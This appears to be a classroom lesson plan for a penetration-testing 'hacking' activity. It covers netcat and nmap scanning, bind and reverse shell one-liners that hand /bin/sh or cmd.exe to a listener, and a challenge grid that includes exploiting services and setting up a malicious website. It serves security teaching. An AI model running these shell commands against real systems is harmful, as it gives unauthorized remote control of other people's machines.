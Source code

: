 # Penetration Testing "Hacking" Activity

"Hacking" mini activity


* [Resources](#resources)
* [Lesson Plan](#lesson)
* [Worksheet](#worksheet)

<h2 id="resources">Resources</h2>

* Laptop
* Install nmap on all machines
* (Optional) Mobile device
* (Optional) Fing App
* (Optional) Termux

<h2 id="lesson">Lesson Plan</h2>

<h3>Shells</h3>

	ls/dir
	cd ..

<h3>Netcat</h3>

	nc -nvvv 10.10.10.10 80
	nc -nlvp 4444

<h3>Scanning</h3>

	nc -z -v 10.10.10.10 1-100
	nmap 10.10.10.10
	nmap 10.10.10.0/24

<h3>Bind Shell</h3>

	nc -nlvp 4444 -e /bin/sh
	nc -nlvp 4444 -e cmd.exe

	nc -nvvv 10.10.10.10 4444

<h3>Reverse Shell</h3>

	ncat -nlvp 4444
	nc -nvvv 10.10.10.10 4444 -e /bin/sh 
	nc -nvvv 10.10.10.10 4444 -e cmd.exe

<h3>Cheat Sheet</h2>

|Topic |Syntax |Examples |
|:-----|:--|:--|
|Shells|List files: <code>ls/dir</code><br />Change directory:<code>cd <directory></code>| |
|Netcat|Connect: <code>nc -nv <IP_ADDRESS> <PORT></code><br \>Listen: <code>nc -nlvp <PORT></code> |<code>nc -nlvp 4444</code>|
|Scanning| |<code>nc -z -v 10.10.10.10 1-100</code><br \><code>nmap 10.10.10.0/24</code>|
|Bind Shell| | |
|Reverse shell| | |
|Exploitation| | |


<h3>Challenge</h3>

|10 | 50| 100| 500|
|:--|:--|:--|:--|
|Find my laptop|Find hidden service|Exploit vulnerability|Upload a file|
|Find a windows machine|Find open ports|Find OS version|Find an exploit|
|Find my mobile device|Find the hidden port|Download a file|Setup a malicious website for this device|
|Find a printer|Find version of printer|Find a vulnerable service|Print a page on the printer|

<h2 id="worksheet">Worksheet</h2>

 
